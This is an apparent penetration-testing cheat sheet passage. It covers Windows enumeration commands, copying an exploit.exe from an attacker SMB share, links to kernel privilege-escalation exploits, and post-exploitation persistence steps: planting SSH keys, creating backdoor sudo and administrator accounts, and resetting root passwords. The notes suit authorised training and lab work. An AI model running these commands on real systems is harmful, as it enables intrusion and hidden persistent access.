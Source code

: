 netstat -bano

driverquery | findstr Kernel

wevtutil el

schtasks /query /fo LIST /v

```


uploading files

- SMB server
```
smbserver.py SOMETHING /root/shells
---
copy \\10.11.0.171\SOMETHING\exploit.exe .

```
- FTP
- TFTP

Windows kernel exploits

[Potato Privilege Escalation on Windows 7,8,10, Server 2008, Server 2012](https://github.com/foxglovesec/Potato)

[Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564)



## Post Exploitation

### Linux
Add ssh key to authorized_keys in root home

Add a new sudo user
```
useradd -m -p wlIrasyzP7iwI sloth
usermod -aG sudo sloth
```

Change a user's password
```
echo "password123" | passwd --stdin root
echo -e "DrP3pp3r\nDrP3pp3r" | passwd --stdin root
```

Capture packets
```
tcpdump -i eth0 -s 65535 -w dump.pcap host 10.11.1.218
```


### Windows

add a user
```
net user sloth password123 /add
net localgroup administrators sloth /add

